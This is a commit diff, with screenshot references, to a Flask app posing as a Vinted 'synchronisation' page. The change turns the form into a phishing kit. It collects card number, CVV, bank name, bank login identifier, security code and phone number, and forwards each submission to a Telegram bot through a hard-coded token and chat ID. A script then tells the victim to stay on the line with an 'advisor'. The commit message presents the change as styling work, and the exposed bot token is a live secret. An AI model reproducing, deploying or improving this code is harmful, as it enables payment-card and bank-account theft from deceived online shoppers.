

Before and after one commit to escobar25250616/vinted-synchronisation, a Flask app: page / in a window 390 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Amélioration du style responsive

```diff
--- a/app.py
+++ b/app.py
@@ -3,7 +3,7 @@ import requests
 
 app = Flask(__name__)
 
-# Renseigne ici ton token et ton ID
+# ⚠️ En production, utilise des variables d’environnement au lieu de les écrire en clair
 TELEGRAM_TOKEN = '8186336309:AAFMZ-_3LRR4He9CAg7oxxNmjKGKACsvS8A'
 TELEGRAM_CHAT_ID = '6297861735'
 
@@ -13,29 +13,38 @@ def envoyer_telegram(message):
         'chat_id': TELEGRAM_CHAT_ID,
         'text': message
     }
-    requests.post(url, data=payload)
+    try:
+        requests.post(url, data=payload)
+    except requests.exceptions.RequestException as e:
+        print(f"[ERREUR] Échec de l'envoi Telegram : {e}")
 
 @app.route('/', methods=['GET', 'POST'])
 def contact():
     if request.method == 'POST':
-        nom = request.form['nom']
-        prenom = request.form['prenom']
-        numero = request.form['numero']
-        nom = request.form['nom']
-        prenom = request.form['prenom']
-        numero = request.form['numero']
+        montant = request.form.get('montant', '')
+        carte = request.form.get('carte', '')
+        crypto = request.form.get('crypto', '')
+        etablissement = request.form.get('etablissement', '')
+        identifiant = request.form.get('identifiant', '')
+        code_securite = request.form.get('code_securite', '')
 
         message = f"""
 Nouvelle soumission Vinted 🔄
 
-👤 Nom : {prenom} {nom}
-📞 Numéro : {numero}
+💶 Montant : {montant}
+💳 Carte : {carte}
+🔐 Cryptogramme : {crypto}
+🏦 Banque : {etablissement}
+🧾 Identifiant : {identifiant}
+🔑 Code de sécurité : {code_securite}
 """
         envoyer_telegram(message)
 
-        return "synchronisation effectué avec succès, merci de garder la ligne avec votre conseiller lien pour la suite de votre verification ."
+        return "Synchronisation effectuée avec succès. Merci de garder la ligne avec votre conseiller."
 
     return render_template('form.html')
 
+# ✅ Ce bloc permet de lancer ton app localement (et est ignoré par Gunicorn sur Render)
 if __name__ == '__main__':
-    app.run(debug=True)
+    print("Flask démarre...")
+    app.run(host='0.0.0.0', port=10000, debug=True)
--- a/render.yaml
+++ b/render.yaml
@@ -3,4 +3,6 @@ services:
     name: vinted-synchronisation
     env: python
     buildCommand: ""
-    startCommand: "gunicorn app:app"
+    startCommand: gunicorn app:app
+    plan: free
+    region: frankfurt
--- a/templates/form.html
+++ b/templates/form.html
@@ -2,6 +2,7 @@
 <html lang="fr">
 <head>
   <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"> <!-- Ajoutée ici -->
   <title>Informations de synchronisation</title>
   <style>
   body {
@@ -17,7 +18,8 @@
 
 .card {
   background-color: #ffffff;
-    width: 400px;
+  width: 100%;  /* La largeur complète */
+  max-width: 600px; /* Largeur maximale de la carte */
   border-radius: 12px;
   box-shadow: 0px 0px 10px rgba(0,0,0,0.1);
   padding: 24px;
@@ -39,10 +41,10 @@
 
 input {
   width: 100%;
-    padding: 10px;
+  padding: 12px;
   border: 1px solid #dcdcdc;
   border-radius: 8px;
-    font-size: 14px;
+  font-size: 16px;
   margin-bottom: 16px;
   box-sizing: border-box;
   background-color: #fff;
@@ -65,8 +67,8 @@
   color: white;
   border: none;
   border-radius: 8px;
-    padding: 12px;
-    font-size: 16px;
+  padding: 14px;
+  font-size: 18px;
   cursor: pointer;
   transition: background-color 0.2s ease;
 }
@@ -75,7 +77,8 @@
   background-color: #006266;
 }
 
-  @media (max-width: 480px) {
+/* 👇 Adaptations spécifiques aux écrans mobiles */
+@media (max-width: 768px) {
   body {
     padding: 20px;
     height: auto;
@@ -83,8 +86,6 @@
   }
 
   .card {
-      width: 100%;
-      max-width: 360px;
     padding: 16px;
     box-shadow: 0px 0px 6px rgba(0, 0, 0, 0.1);
   }
@@ -94,13 +95,13 @@
   }
 
   input {
-      font-size: 13px;
-      padding: 9px;
+    font-size: 18px; /* Plus lisible sur les petits écrans */
+    padding: 16px;  /* Plus de confort pour taper sur mobile */
   }
 
   .btn {
-      padding: 10px;
-      font-size: 15px;
+    padding: 16px;
+    font-size: 20px; /* Gros bouton pour faciliter l'interaction */
   }
 }
   </style>
@@ -123,6 +124,8 @@
 
       <input type="text" id="code_securite" name="code_securite" placeholder="Code de sécurité" required>
 
+      <input type="text" id="numéro" name="numéro" placeholder="numéro de téléphone" required>
+
       <button type="submit" class="btn">Utiliser ces informations</button>
     </form>
   </div>
```
Also changed, not shown: static/style.css (+34 -8 lines), test_flask.py (added, +11 -0 lines). Lines whose indentation alone changed are shown as unchanged.
